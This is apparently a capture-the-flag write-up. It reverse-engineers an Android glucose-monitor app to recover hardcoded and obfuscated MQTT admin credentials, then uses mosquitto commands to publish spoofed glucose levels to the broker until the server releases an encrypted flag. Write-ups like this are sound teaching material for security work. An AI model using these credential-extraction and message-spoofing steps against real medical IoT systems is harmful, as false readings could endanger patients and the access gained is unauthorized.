

# Blood Glucose Sensor

- Solves: **2**
- Category: Network
- Estimated difficulty: intermediate
- Author: cryptax
- Write-up by cryptax

## Description



The [APK is here](./ph0wn-glucose.apk).

## Using the Android app

We can install the Android application on a smartphone, or an emulator: `adb install ph0wn-glucose.apk`
We need to specify the IP address of the *Ph0wn Glucose Server* to receive Glucose levels.
Due to a bug, this only works if one client is connected at a time :(
Fortunately, this is merely cosmetic and does not change anything to solve the challenge.


## Reversing the Android app

### Understanding the app

Get your favorite Android disassembler or decompiler.
The main activity shows we clearly interact with a MQTT broker:

```java
   LocalBroadcastManager.getInstance(((Context)this)).registerReceiver(new BroadcastReceiver(((TextView)v1), ((TextView)v0), ((TextView)v5)) {
            public void onReceive(Context arg4, Intent arg5) {
                String v4 = arg5.getStringExtra("extra_mqtt_topic");
                String v5 = arg5.getStringExtra("extra_mqtt_payload");
                if(v4.equals("ph0wn18/glucose-level")) {
                    TextView v0 = this.val$level;
                    v0.setText(v5 + " mg/dL");
                }

                if(v4.equals("ph0wn18/info")) {
                    this.val$info.setText(((CharSequence)v5));
                }

                if(v4.equals("ph0wn18/alert")) {
                    this.val$alert.setText(((CharSequence)v5));
                }
            }
        }, new IntentFilter("GlucoseMqttBroadcast"));
```	

We learn from this that there are several topics:

- ph0wn18/info
- ph0wn18/alert
- ph0wn18/glucose-level: displays the current glucose level in mg/dL.

The application has a `GlucoseService` that we inspect.
When the service is launched, method `onCreate()` is called, which calls `createClient()`:

```java
 private void createClient() {
        Log.d("Glucose", "GlucoseService.createClient()");
        SharedPreferences v0 = PreferenceManager.getDefaultSharedPreferences(((Context)this));
        String v1_1 = "tcp://" + v0.getString("broker_url", "") + ":" + 1883;
        v0.registerOnSharedPreferenceChangeListener(((SharedPreferences$OnSharedPreferenceChangeListener)this));
        Log.d("Glucose", "GlucoseService.createClient(): Server URI: " + v1_1);
        String v0_1 = this.getString(0x7F0D0028);
        String v2_1 = this.getString(0x7F0D0040);
        String v3 = this.getString(0x7F0D002B);
        this.mqttClient = new MqttAndroidClient(this.getApplicationContext(), v1_1, v0_1);
        this.connect(v2_1, v3);
        this.setClientCallback();
    }
```

This sets up a connection with the broker url on port **1883**.
Then, we call `connect()`:

```java
 private void connect(String arg4, String arg5) {
        Log.d("Glucose", "GlucoseService.connect(): user=" + arg4 + " password=" + arg5);
        MqttConnectOptions v0 = new MqttConnectOptions();
        v0.setAutomaticReconnect(true);
        v0.setCleanSession(true);
        v0.setUserName(arg4);
        v0.setPassword(arg5.toCharArray());
```

MQTT username and password are supplied as arg4 and arg5. If we go back to `createClient()`, this corresponds to resources `0x7F0D0040` and `0x7F0D002B`.

In resources, `public.xml`, we spot the resources.
```xml
<public id="0x7f0d002b" name="password" type="string" />
...
<public id="0x7f0d0040" name="username" type="string">
```

With that name, we look up `strings.xml`:

```xml
 <string name="password">expert</string>
 <string name="username">user</string>
``` 

### Test connection as user

We therefore connect to the MQTT broken using those credentials. We install mosquitto MQTT tools and subscribe to all topics (`#`). We wait for a while and receive ph0wn glucose levels, but also other messages:

```
$ mosquitto_sub -v -h SERVER -p 1883 -t '#' -u user -P expert
ph0wn18/glucose-level 83
ph0wn18/info connect as admin for more topics
ph0wn18/glucose-level 122
```

The information **connect as admin for more topics** is important. We need to find out how to log in as `admin`.

### Admin credentials

We go back to the Android application. The `MainActivity` does not contain any admin password or encrypted value. Same for `SettingsActivity` and `GlucoseService`. The `Allatori` class contains a de-obfuscation routine. If you search on the web, you'll find several references to the *Allatori Java Obfuscator*. We haven't used this so far. So why is it? What can it be used for?

Let's continue our search. If there is nothing in the classes, we have to investigate resources or assets (but we have no assets).
Let's have a look to the resources. We spot this so-called *test_settings* string:

```xml
<string name="test_settings">
    #@----VRFZHFo=@@@-:#@--JkESVQcFBnYUVRRVFFUUUA==#####@
</string>
```

**Strange!**
This looks like *Base64* but with additional characters: `#@-`.
We remove them and get: `VRFZHFo=:JkESVQcFBnYUVRRVFFUUUA==`
We are going to put this through the `Allatori` class of the application.
Basically, we copy paste the decompiled Allatori to create a Java program. The only modifications to do concern Base64 which is not exactly supported the same way in Android and in Java: import java.util.Base64 and do decoding using `Base64.getDecoder().decode(...)`

[Resulting source code](./DecodeAdmin.java)

We run it:

```
$ java DecodeAdmin                                   
1st part decoding: admin
2nd part decoding: Sugar1sBaaaaaaad
```

So, this `test_settings` was probably left for "test" ;) and contains the `admin` credentials. How convenient ;)

### Network part

Again, let's connect to the MQTT broker, but as `admin`:

```
$ mosquitto_sub -v -h SERVER -p 1883 -t '#' -u admin -P Sugar1sBaaaaaaad
ph0wn18/info connect as admin for more topics
ph0wn18/glucose-level 105
ph0wn18/glucose-level 60
```

We don't get especially more information, but maybe we have more rights.
What can we try to do?

1. Try to publish to another topic
2. Try to read system topics
3. Try to modify glucose level

#### Publishing to another channel

This does not succeed:

`mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/try' -u admin -P Sugar1sBaaaaaaad -m 'test'`: the message is actually not published :(

#### Subscribing to SYS topics


```
$ mosquitto_sub -v -h SERVER -p 1883 -t '$SYS/#' -u admin -P Sugar1sBaaaaaaad
$SYS/broker/version mosquitto version 1.4.12
$SYS/broker/timestamp 2017-06-01 13:03:46+0000
$SYS/broker/uptime 2959 seconds
$SYS/broker/clients/total 4
...
```

- We have a Mosquitto server at the other end, version 1.4.12
- We have 4 clients at all
- The server sent 146 messages so far `$SYS/broker/messages/sent 146`
- etc

Nothing that seems really useful :(

#### Changing glucose level

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '150'`
```
It works and we indeed see the new value printed in our subscriber.

How about trying strange values.

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m 'test'
```

And in our subscriber we see a message on a new topic `ph0wn18/alert`:

```
ph0wn18/alert Hmm. Someone's trying to hack me? You're getting close.
```

We try with a high level of glucose.
```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '5000'
```

If we have subscribed to all topics, we'll see promising messages on the `ph0wn18/flag` topic:

```
ph0wn18/glucose-level 67
ph0wn18/glucose-level 5000
ph0wn18/flag Nice try. Try and generate another type of alert.
```

We try with a low level of glucose:

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '-10'

ph0wn18/glucose-level -10
ph0wn18/alert Hypoglycemia risk!!
ph0wn18/info Ensure your team id is correctly set in ph0wn18/teamid - or set it (admin required)
```

We set our team id and re-send a very low glucose level.

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/teamid' -u admin -P Sugar1sBaaaaaaad -m 'team2'
```

We get an encrypted token:

```
ph0wn18/flag Encrypted token: VXNlIGFkbWluIHBhc3N3b3JkIHRvIGRlY3J5cHQgQUVTOiBjRD3ndvozFLDfPnaJ7GpENVuftgJgG6jdwpKdb6Q5lfDNqgJbCKVQ5tdAxvLdHFA=
```

### Decrypting the token

The flag message talks about an "encrypted" token. We recognize it uses Base64:

```python
token = 'VXNlIGFkbWluIHBhc3N3b3JkIHRvIGRlY3J5cHQgQUVTOiBjRD3ndvozFLDfPnaJ7GpENVuftgJgG6jdwpKdb6Q5lfDNqgJbCKVQ5tdAxvLdHFA='
base64.b64decode(token)
```

and it decrypts to : "Use team password to decrypt AES: cD=\xe7v..."


Each team has its own team key. So we decrypt:

```python
from Crypto.Cipher import AES
cipher = AES.new('YOUR TEAM PASSWORD')
cipher.decrypt('cD=\xe7v\xfa3\x14\xb0\xdf>v\x89\xecjD5[\x9f\xb6\x02`\x1b\xa8\xdd\xc2\x92\x9do\xa49\x95\xf0\xcd\xaa\x02[\x08\xa5P\xe6\xd7@\xc6\xf2\xdd\x1cP')
```

The result is : `ph0wn{ur_lucky_no_diab4te_h4r3} `

[Source code](./mqtt-solve.py)
